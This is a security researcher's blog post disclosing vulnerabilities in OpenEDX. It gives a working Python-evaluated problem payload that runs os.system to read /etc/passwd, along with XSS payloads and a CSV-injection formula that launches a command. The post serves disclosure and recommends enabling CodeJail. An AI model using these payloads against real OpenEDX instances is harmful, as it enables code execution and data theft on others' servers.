 ```yaml
---
layout: post
title: How I found a Remote Code Execution in OpenEDX
---
```


**How I found a Remote Code Execution in OpenEDX**

![alt text](https://media-exp1.licdn.com/dms/image/C4D0BAQEImBWi8mCV9w/company-logo_200_200/0?e=1597881600&v=beta&t=3TJtPgE49E8s9Ox3X3h15mgb4Ls8vjX9_VL5DX9HkqY "Logo Title Text 1")

OpenEDX platform is really cool Learning Management System, which is also Open source (this time I was testing the Ironwood release 2.5). You can check it out here: <https://open.edx.org/the-platform/> When I was using it, I decided to check for their security. So I followed my normal approach: first mapping the app, writing down which functionalities it had, blackbox testing, and then whitebox.

As you can see here: <https://github.com/edx/edx-platform> the whole platform is written in Python (in which I don’t have many experience reviewing code). So I decided to go completely blackbox this time. As I really needed to know all the functionalities in depth, I went to the official documentation:

**https://edx.readthedocs.io/projects/open-edx-building-and-running-a-course/en/latest/index.html**

![alt text](https://pic.accessify.com/thumbnails/777x423/d/docs.edx.org.png "test")

So after some time digging in the docs I found this:
![ssdsd](https://imgur.com/HUdrMOi)

So it turns out that if you create an account in the OpenEDX platform instance and go to the Studio, create a Course, Create a Unit in the course and add a Problem. And if you choose Custom Python-Evaluated problem and use a payload such as:
~~~~
<problem>

<script type="python">
def test_add(expect,ans):
    os.system("cat /etc/passwd > /tmp/test_rce")
    
</script>

<p>Problem text</p>
<customresponse cfn="test_add" expect="20">
        <textline size="10" correct_answer="11" label="Integer #1"/><br/>
        <textline size="10" correct_answer="9" label="Integer #2"/>
</customresponse>

    <solution>
        <div class="detailed-solution">
          <p>Solution or Explanation Heading</p>
          <p>Solution or explanation text</p>
        </div>
    </solution>
</problem>
~~~~

And click the Submit button, you can execute code in the machine.


![alt text](https://imgur.com/a/RCbkoMF)

So when I discovered this, I contacted EDX’s security team and they told me that there is a mitigation for this kind of issues, but it is not enabled by default:

**https://github.com/edx/codejail**

Apart from this vulnerability I also found a stored XSS. In EDX STUDIO&gt;CONTENT&gt; FILE UPLOADS&gt; Upload an SVG XSS file. And also 2 more XSS:

1) EDX STUDIO&gt;COURSENAME&gt;CONTENT&gt; UPDATES &gt; Press the edit button and replace the default thing with &lt;img src=x onerror=alert(0)&gt;

2) Finally in EDX STUDIO&gt;COURSENAME&gt;SETTINGS&gt;

Finally I found a CSV injection as well:

Course &gt;Instructor&gt;Cohorts&gt;Add cohort with the payload (ex: =cmd|' /C notepad'!'A1')&gt;Add your user to the cohort
Course&gt;Data Downloads&gt;Reports&gt;Download profile info as CSV&gt;The file is generated below, open in Excel 2016, Data&gt;Import data from file&gt;Choose CSV&gt;Using comma as delimiter.

So, that was all for today. Please make sure you enable CodeJail while using OpenEDX platform. Thanks for reading the post ;)
